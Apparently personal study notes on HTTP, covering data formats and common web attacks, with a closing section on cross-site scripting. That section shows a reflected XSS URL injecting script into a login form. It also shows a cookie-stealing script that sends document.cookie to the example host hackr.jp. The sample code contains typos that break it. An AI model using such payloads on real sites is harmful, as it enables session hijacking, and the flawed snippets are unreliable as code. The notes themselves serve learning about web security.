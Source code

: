 # HTTP notes

### RSS/Atom

They are used for publish blogs and news. Both of them require XML.

### JSON

**JavaScript Object Notation** can handle false/null/true/object/array/number/digit/string. **JSON** makes data pure and can be easily accepted by JavaScript. From the beginning, **Ajax** make JSON more popular. Other programming language provides a lot of third party libraries.



## Web Attack

HTTP is too simple to be attacked. Clients, servers, apps and the resources are the targets.

#### HTTP is not Secure

Web applications are using HTTP very differently from the beginning. Nearly all websites are using things like session, encryption and other functions related to security. HTTP doesn't have these functions.

For example, SSH provides secure session managing method at the protocol level. It is very easy to create a secure service. For HTTP, even if you establish a server, if you want to provide a web application, you need to develop from the very beginning.

Thus, developers need to design the authentication system and the session managing methods by themselves to ensure the security. This means all kinds of bugs.

#### Client Can Tamper Requests

Anything that is received from the client can be rewritten by the client! Thus, the server can receive information unexpectedly.

Hackers can load attack codes in the datagram to launch attack to the Web applications. Through **URL query field**, **form**, **HTTP Header**,**Cookie**, malicious codes can be uploaded. If the application has some bugs, the internal information is not safe and the attacker may get the administrative authority.

#### Attack methods

- Active attack
  - Hackers contact the application directly and upload malicious codes. This method aims the resources, so the hacker needs to get access to these resources.
  - **SQL Injection Attack** and **OS Injection Attack**
- Passive attack
  - Hackers use trap to run malicious codes. During this process, the attacker won't attack the application directly.
  - Mode:
    1. Set a trap. This trap will send a request that has been filled by malicious codes.
    2. When the user is hacked, the user's browser and email-client will trigger this trap.
    3. The client will send HTTP requests that contain the malicious codes to the server and run it.
    4. After this, this web application will become a spring board for the hacker. This could lead to the leakage of user information (**cookie**) or the misuse of the authority of the logged user.
  - **XSS (Cross-site scripting attack)** and **CSRF(Cross-site Request Forgery)**\
  - This attack mode is of especial importance when hackers want to launch an attack to the internal internet of a company or an organization.

### Security Vulnerabilities Caused by Incomplete Output Value Escaping

Two major security strategies:

- Client authentication
- Web (server) authentication
  - Input authentication
  - Output value escaping(输出值转义)

![attack](./pics/attack.bmp)

Most of the time JavaScript is used to check the data. But the client is allowed to turn off JavaScript and tamper the data, so it is not suitable to take JavaScript as the only method to handle security issues. Keeping Client authentication is because the app can identify input errors as early as possible and enhance UI experience.

Input authentication is used to identify whether the uploaded data is offensive. This process makes sure that the uploaded data is normal.

If the output value escaping is not complete, this will trigger the malicious codes uploaded by the hacker, which could bring damage to the client.

#### XSS

Run illegal HTML tags or JavaScript codes. Dynamic HTML files can be vulnerable. The hacker writes a malicious script and when the user runs it on their own browser, they may suffer passive attack unexpectedly.

**XSS** can cause:

- Steal user information through fake PostForms.
- Exploit cookies and send malicious requests without the user's acknowledgement.
- Show fake articles and images

Example:

> http://example.jp/login?ID=yama

```html
<div class="logo">
    <img src="/img/logo.gif" alt/"E! 拍卖会" />
</div>
<form action="http://example.jp/login" method="post" id="login">
    <div class="input_id">
        ID <input type="text" name="ID" value="yama" />
    </div>
```

> http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f</script></script><span+s="

```html
<div class="logo">
    <img src="/img/logo.gif" alt/"E! 拍卖会" />
</div>
<form action="http://example.jp/login" method="post" id="login">
    <div class="input_id">
        ID <input type="text" name="ID" value=""><script>var f=document.getElementById("login"); f</script><span s=""/>
    </div>
```

- Attack Cookie

> http://example.jp/login?ID="><script src="http://hackr.jp/xss.js></script>"

```html
<script src=http://hackr.jp/xss.js></script>
```

```javascript
var content = escape(docuemnt.cookie);
document.write("<img src=http://hackr.jp/?>");
document.write(content);
document.write(">");
```


